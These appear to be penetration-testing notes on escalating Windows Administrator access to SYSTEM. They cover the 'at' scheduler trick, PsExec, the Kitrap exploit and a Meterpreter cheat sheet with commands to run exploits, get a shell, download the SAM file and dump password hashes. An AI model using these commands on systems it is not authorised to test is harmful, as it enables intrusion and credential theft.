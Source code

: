 ## Escalate to SYSTEM from Administrator

### On Windows XP and Older

If you have a GUI with a user that is included in Administrators group you first need to open up `cmd.exe` for the administrator. If you open up the cmd that is in Accessories it will be opened up as a normal user. And if you rightclick and do `Run as Administrator` you might need to know the Administrators password. Which you might not know. So instead you open up the cmd from `c:\windows\system32\cmd.exe`. This will give you a cmd with Administrators rights.

From here we want to become SYSTEM user. To do this we run:

First we check what time it is on the local machine:

```
time

# Now we set the time we want the system CMD to start. Probably one minuter after the time.
at 01:23 /interactive cmd.exe
```

And then the cmd with SYSTEM privs pops up.

### Vista and Newer

You first need to upload PsExec.exe and then you run:

```
psexec -i -s cmd.exe
```

### Kitrap

On some machines the `at 20:20` trick does not work. It never works on Windows 2003 for example. Instead you can use Kitrap. Upload both files and execute `vdmaillowed.exe`. I think it only works with GUI.

```
vdmallowed.exe
vdmexploit.dll
```

### Using Metasploit

So if you have a metasploit meterpreter session going you can run `getsystem`.


### Meterpreter Cheat Sheet

````
	• upload file c:\\windows                                # Meterpreter upload file to Windows target
	• download c:\\windows\\repair\\sam /tmp                 # Meterpreter download file from Windows target
	• download c:\\windows\\repair\\sam /tmp                 # Meterpreter download file from Windows target
	• execute -f c:\\windows\temp\exploit.exe                # Meterpreter run .exe on target – handy for executing uploaded exploits
	• execute -f cmd -c                                      # Creates new channel with cmd shell
	• ps                                                     # Meterpreter show processes
	• shell                                                  # Meterpreter get shell on the target
	• getsystem                                              # Meterpreter attempts priviledge escalation the target
	• hashdump                                               # Meterpreter attempts to dump the hashes on the target
	• portfwd add –l 3389 –p 3389 –r target                  # Meterpreter create port forward to target machine
	• portfwd delete –l 3389 –p 3389 –r target               # Meterpreter delete port forward
````